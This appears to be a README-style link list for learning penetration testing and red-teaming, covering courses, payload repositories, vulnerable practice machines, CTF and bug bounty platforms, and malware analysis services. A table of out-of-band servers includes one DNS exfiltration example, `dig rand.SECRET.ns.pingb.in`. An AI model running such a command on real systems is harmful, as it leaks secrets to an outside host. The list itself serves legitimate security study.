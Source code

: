 # Cybersecurity Knowledge Base

Useful links for the study of cybersecurity, penetration testing, and red-teaming in general.
Also avialable on [gitbook](https://chovanecadam.gitbook.io/cybersecurity) and 
[github](https://github.com/chovanecadam/cybersecurity).

## Interactive Tutorials And Courses

* [PortsWigger Web Security Academy](https://portswigger.net/web-security)
* [Hacker 101](https://www.hacker101.com/)
* [Open Security Training](https://www.opensecuritytraining.info/)
* [Cybrary](https://www.cybrary.it/)
* [Purple Academy](https://academy.picussecurity.com/home)
* [Let's Defend](https://app.letsdefend.io/academy/)

## OWASP

* [OWASP Top Ten Project](https://owasp.org/www-project-top-ten/)
* [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
* [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)

## Toolkit

* [Kali Linux](https://www.kali.org/), [ParrotOS Security](https://www.parrotsec.org/)
* [Kali Tools](https://tools.kali.org/tools-listing)
* [CyberChef](https://gchq.github.io/CyberChef)

## GitHub goodies

* [SecLists](https://github.com/danielmiessler/SecLists)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [PenetrationTesting](https://github.com/wtsxDev/Penetration-Testing)

## Cheatsheets, tutorials, book

* [HackTricks](https://book.hacktricks.xyz/)
* [HackSplaining](https://www.hacksplaining.com/)
* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
* [GTFOBins](https://gtfobins.github.io/)

## Videos, Conferences, YouTube

* [defcon.org](https://www.youtube.com/user/DEFCONConference/playlists)
* [BlackHat](https://www.youtube.com/user/BlackHatOfficialYT)
* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
* [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)
* [SANS konference](https://www.sans.org/cyber-security-summit/archives/)
* [SANS webcasty](https://www.sans.org/webcasts/archive/2020)
* [Wild West Hacking Fest](https://www.youtube.com/channel/UCef0TWni8ghLcJphdmDBoxw/videos)
* [Bugcrowd](https://www.youtube.com/c/Bugcrowd/videos)
* [VirSecCon2020](https://www.youtube.com/watch?v=B3Udl86Zu20&t=8s)
* [InstallFest](https://www.youtube.com/channel/UCivNQFv0lsPN3kEy2wKPOhw)
* [Hack In The Box Security Conference](https://www.youtube.com/channel/UC0BJVNTIEbG8CLG-xVVWJnA)
* [Nahamsec](https://www.youtube.com/c/Nahamsec/videos)
* [HackTheBox](https://www.youtube.com/c/HackTheBox)
* [PortSwigger](https://www.youtube.com/c/PortSwiggerTV/videos)
* [John Hammond](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw)
* [Hacksplained](https://www.youtube.com/c/Hacksplained/videos)

## Podcasts

* [Malicious Life](https://malicious.life/)
* [Security Now](https://twit.tv/shows/security-now)
* [Risky Business](https://risky.biz/)
* [Darknet Diaries](https://darknetdiaries.com/)
* [CYBER](https://podcasts.apple.com/us/podcast/cyber/id1441708044)
* [The CyberWire Daily](https://thecyberwire.com/podcasts/daily-podcast)
* [Hacking Humans](https://thecyberwire.com/podcasts/hacking-humans)
* [MalwareTech Podcast](https://www.youtube.com/channel/UCLDnEn-TxejaDB8qm2AUhHQ)
* [The PRIVACY, SECURITY, & OSINT Show](https://inteltechniques.com/podcast.html)
* [Naked Security Podcast](https://podcasts.apple.com/us/podcast/naked-security/id171426676)

## Virtual Machines and Sandboxes for Hacking

* [OWASP Juice Shop Project](https://owasp.org/www-project-juice-shop/)
* [Damn Vulnerable Web Application](https://github.com/ethicalhack3r/DVWA)
* [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3)
* [WebGoat](https://github.com/WebGoat/WebGoat)
* [vulnhub.com](https://www.vulnhub.com/)
* [OWASP Mutillidae II](https://github.com/webpwnized/mutillidae)

## CTF and Online Hacking Platforms

* [Kybersoutěž](https://www.kybersoutez.cz/)
* [Hack The Box](https://hackthebox.eu)
* [TryHackMe](https://tryhackme.com/)
* [SafeWeb.cz](https://www.safeweb.cz/)
* [HackEDU](https://www.hackedu.com/)
* [Hack This Site](https://hackthissite.org)
* [hackertest.net](https://hackertest.net)
* [root-me.org](https://root-me.org/?lang=en)
* [Secure Code Warrior](https://portal.securecodewarrior.com/)
* [ctftime.org](https://ctftime.org/)
* [thecatch.cz](https://www.thecatch.cz/)
* [attackdefense.com](https://attackdefense.com/)
* [237ctf](https://247ctf.com/)
* [CyberSecLabs](https://www.cyberseclabs.co.uk/)
* [Over The Wire](https://overthewire.org/)
* [defendtheweb.net](https://defendtheweb.net)

## Bug Bounty Platforms

* [Hacker One](https://www.hackerone.com/)
* [BugCrowd](https://www.bugcrowd.com/)
* [Intigriti](https://www.intigriti.com/)

## Malware analysis

| name                                    | description                                     |
| ---------------------------------------- | ----------------------------------------- |
| [VirusTotal](https://www.virustotal.com) | analysis of malware, hash, url, pcap      |
| [AnyRun](https://app.any.run/)           | online interactive malware analysis       |
| [Triage](https://tria.ge/)               | dynamic and static malware analysis       |
| [VMRay](https://www.vmray.com)           | dynamic malware analysis, paid service   |
| [Hybrid Analysis](https://hybrid-analysis.com/) | dynamic malware analysis           |

## Temporary domains, URLs, emails, and OOB servers

| name                                    | description                                                       |
| --------------------------------------- | ----------------------------------------------------------------- |
| [webhook.site](https://webhook.site/)   | probably the best choice, up to 500 requests, offers VIP          |
| [pingb.in](http://pingb.in)             | data exfiltration by DNS: `dig rand.SECRET.ns.pingb.in`           |
| [RequestBin.net](http://requestbin.net) | public URL, displays HTTP headers, GET and POST parameters        |

## Blogs

* [CRYPTSUS](https://cryptsus.com/blog/)
